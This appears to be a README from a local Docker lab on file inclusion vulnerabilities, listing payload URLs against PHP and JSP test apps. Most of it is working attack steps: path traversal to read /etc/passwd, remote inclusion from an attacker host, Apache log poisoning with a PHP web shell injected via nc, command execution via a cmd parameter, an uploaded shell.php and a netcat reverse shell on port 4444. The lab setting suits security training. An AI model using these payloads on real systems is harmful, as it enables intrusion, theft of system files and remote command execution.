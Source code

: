 # Payloads

## PHP

- http://127.0.0.1:8883/lfi.php?language=http://172.18.0.3/check.php?

see `allow_url_include` in response

- http://127.0.0.1:8883/lfi.php?page=/etc/passwd

- By Experiment add ../ since before etc/passwd until:

http://127.0.0.1:8883/lfi.php?page=../../../etc/passwd

- Get "access.log", changed here to "access_combined.log" because stdout is going out of docker:

http://127.0.0.1:8883/lfi.php?page=../../../var/log/apache2/access_combined.log

```
nc -nv 127.0.0.1 8883
<?php echo shell_exec($_GET['cmd']);?>
```

http://127.0.0.1:8883/lfi.php?page=../../../var/log/apache2/access_combined.log&cmd=id

-- Check for uid in output

- Upload check.php from attacker-server src folder
load
http://127.0.0.1:8883/lfi.php?language=/var/www/html/uploads/check

- upload shell.php
http://127.0.0.1:8883/lfi.php?language=/var/www/html/uploads/shell
docker exec -ti <containerid_attackerserver> /bin/bash
nc 172.18.0.1 4444

## JSP

http://localhost:8888/webapp/?help=runme.jsp?exec=ls
http://localhost:8888/webapp/?help=runme.jsp?exec=cat%20/etc/passwd

http://localhost:8888/webapp/?help=http://172.18.0.3:80/jsp/introduction

# Further Information

https://www.owasp.org/index.php/Testing_for_Local_File_Inclusion

